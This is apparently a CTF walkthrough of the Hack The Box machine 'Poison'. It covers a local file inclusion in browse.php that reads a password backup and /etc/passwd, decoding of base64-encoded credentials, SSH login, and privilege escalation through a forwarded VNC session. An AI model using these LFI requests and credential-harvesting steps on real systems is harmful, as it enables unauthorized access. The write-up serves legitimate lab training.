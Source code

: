 # Poison

**Machine ip:** 10.10.10.84

## Enumeration
First thing first, start port scan:
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.84 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.84`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dc6230c3-bc5c-468e-821e-514f8e0828fd)

+ The result shows that 2 TCP ports are open:
```
Port 22: OpenSSH 7.2
Port 80: Apache httpd 2.4.29
```

+ Always start off with enumerating web server first.
+ Navigate to `http://10.10.10.84/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1c32c4dc-e26f-4728-ba3e-1518b918c928)

+ When entering **listfiles.php** into **Scriptname** textbox, **pwdbackup.txt** looks interesting.
+ `http://10.10.10.84/browse.php?file=listfiles.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bb8237de-e6cc-41e0-8bef-d003d7e1ae08)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a643911b-431e-4fb0-aea8-fcce9e4e28aa)

+ Enter **pwdbackup.txt** into the textbox, and you'll see base64 encoding.
+ `http://10.10.10.84/browse.php?file=pwdbackup.txt`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/755d1b04-96a4-44ce-936f-87f6ff1d3753)

+ This means that the application is vulnerable to local file inclusion (LFI).

+ And also check whether it is vulnerable to RFI.
+ Navigate to `http://10.10.10.84/browse.php?file=phpinfo.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e35caf5f-568a-40da-9480-be78f16123f4)

+ There is no direct RFI as **allow_url_include** is off. Setting allow_url_include to off in your configuration means that your PHP code on your server will not be able to include remote files.

## Gaining Access:
+ Let's crack the base64 encoding of **pwdbackup.txt**.
+ The encoded form has been base64 encoded 13 times.

+ **Firstly**, crack in bash script [here](https://github.com/h4md153v63n/Bash_Scripts/tree/main/base64-multiple-decoder).

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a60378d4-e4e3-4d17-bd7f-385c8af1a0d9)

+ **Secondly**, try [python script](https://github.com/h4md153v63n/Python_Security_Codes/tree/master/base64-multiple-decoder).

+ **Third Alternative**, try this online tool: https://base64-multiple-decode.netlify.app

![image](https://github.com/h4md153v63n/Bash_Scripts/assets/5091265/27a222f4-dc74-4795-ada0-86bda6fae3b6)

+ The final resulting string is `Charix!2#4%6&8(0`, which seems like a possible password. Or the username is `Charix` and the password is `!2#4%6&8(0`.
+ Get the users: `http://10.10.10.84/browse.php?file=/etc/passwd`
+ Discovered users: **root**, **toor** and **charix**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/00e56373-ad34-4087-a00e-7c9efcbf5fae)

+ The username:password should be `charix`:`Charix!2#4%6&8(0`
+ It belongs to Charix. Login ssh into charix account using the discovered credentials.
+ `ssh charix@10.10.10.84`
+ Get the user shell and user flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bd4b9cf9-8dee-4b01-b130-9f79a2776d93)

+ **Alternatively**, try log posining method. But it didn't work for me.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cd771766-18e8-4abb-b95f-0524b99982cf)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1bc6d871-1708-4a64-9776-58a0f7f56aa6)


## Privilege Escalation:
+ There is a **secret.zip** file on charix’s home directory.
+ Unable to unzip it on the target.
+ Transfer **secret.zip** to your kali attack vm using scp.
+ `scp -P 22 charix@10.10.10.84:/home/charix/secret.zip .` with previous password `Charix!2#4%6&8(0`
+ unzip with the same password `Charix!2#4%6&8(0`: `unzip secret.zip`
+ There's no meaningful thing!

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5ec32bc7-b10c-47d6-82ee-cab8ceaf8898)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a4245b7b-e57c-496c-bf6b-08378b235a83)

+ Lists ports: `netstat -an`
+ [5801](https://www.speedguide.net/port.php?port=5801) and [5901](https://www.speedguide.net/port.php?port=5901) are VNC ports for remote desktop access.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fb6bd861-6308-44b7-b9f7-787ccd94b1d9)

+ List process of vnc: `ps -auwwx | grep vnc`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/87501dde-45a3-4f89-a68a-8618111014a6)

+ Since VNC is a graphical user interface software, we can’t access it through our target machine.
+ We need port forwarding.
+ Run on your kali attack machine with previous password `Charix!2#4%6&8(0`: `ssh -L 7777:127.0.0.1:5901 charix@10.10.10.84`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7b07e577-d046-4075-9d07-93c93ddf8bff)

+ Verify that the command is working:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/473a6f5a-8495-474c-b2d1-dcb9984a49cb)

+ Connect to VNC with previous transferred and decompressed **secret** file on the attack machine: `vncviewer 127.0.0.1:7777 -passwd secret`
+ Get the VNC connection with root privileges, and view the root.txt file.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/556d55dc-b294-4080-9030-42426a5bb802)

+ **Alternatively**, crack secret file using the script [1](https://github.com/jeroennijhof/vncpwd)  [2](https://github.com/trinitronx/vncpasswd.py).
+ Then login using the decrypted password: `vncviewer 127.0.0.1:7777`


# References & Alternatives:
+ https://vvmlist.github.io/#poison
+ https://medium.com/@Inching-Towards-Intelligence/htb-poison-35-100-3ac2da3ff622
+ https://www.hackingarticles.in/hack-the-box-poison-walkthrough/
+ https://0xdf.gitlab.io/2018/09/08/htb-poison.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/poison-writeup-w-o-metasploit#id-46e8
+ https://benheater.com/hackthebox-poison/
+ https://ethicalhacs.com/poison-hackthebox-walkthrough/
+ https://sanaullahamankorai.medium.com/hackthebox-poison-walkthrough-f34509cff535
+ https://manuelvazquez-contact.gitbook.io/oscp-prep/hack-the-box/poison
+ https://systemweakness.com/htb-poison-writeup-w-o-metasploit-5d3b27e25a7e
+ https://github.com/Bengman/CTF-writeups/blob/master/Hackthebox/poison.md


# More:
+ **vnc pentesting:** https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc
  + https://github.com/jeroennijhof/vncpwd
  + https://github.com/trinitronx/vncpasswd.py
+ https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
  + https://www.insomniasec.com/downloads/publications/phpinfolfi.py
